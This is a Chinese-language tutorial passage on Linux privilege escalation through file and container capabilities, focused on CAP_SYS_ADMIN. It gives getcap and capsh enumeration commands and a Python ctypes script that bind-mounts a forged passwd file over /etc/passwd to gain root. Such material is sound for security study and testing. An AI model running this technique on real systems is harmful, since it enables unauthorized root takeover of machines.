 利用情况主要从两个方面考虑：

*   • 当二进制文件具有Capabilities。
    
*   • 环境具有Capabilities主要是当前在容器内。
    

Capabilities信息收集

*   • 二进制文件
    

```
# 查找/下的所有具有Capabilities的二进制文件  
getcap -r / 2>/dev/null

# 查看单个二进制文件  
getcap <path>


```

*   • 环境容器内
    

`capsh --print`

### 以下主要列举利用意义大的一些Capabilities

CAP\_SYS\_ADMIN
---------------

**CAP\_SYS\_ADMIN:** 允许执行系统管理任务，如加载或卸载文件系统、设置磁盘配额等 CAP\_SYS\_ADMIN在很大程度上是一种全面的Capabilities，它很容易导致额外的Capabilities或完全的root（通常是对所有Capabilities的访问）。CAP\_SYS\_ADMIN需要执行一系列的管理操作，如果在容器内执行特权操作，就很难从容器中删除。对于模仿整个系统的容器来说，保留这种Capabilities往往是必要的，而对于单独的应用程序容器来说，它的限制性更强。

**当文件具有能力：**  通过收集发现python具有该能力。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/ba664986-ce53-4056-94e1-84f96e774de5.png?raw=true)

  

通过python可以修改root的密码。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/24a2f311-22e0-4b11-96ce-ecd6cf649fbb.png?raw=true)

  

通过脚本将修改过的passwd文件`mount`到`/etc/passwd` 。

```
from ctypes import *  
libc = CDLL("libc.so.6")  
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)  
MS_BIND = 4096  
source = b"<fake passwd 路径>"  
target = b"/etc/passwd"  
filesystemtype = b"none"  
options = b"rw"  
mountflags = MS_BIND  
libc.mount(source, target, filesystemtype, mountflags, options)
```
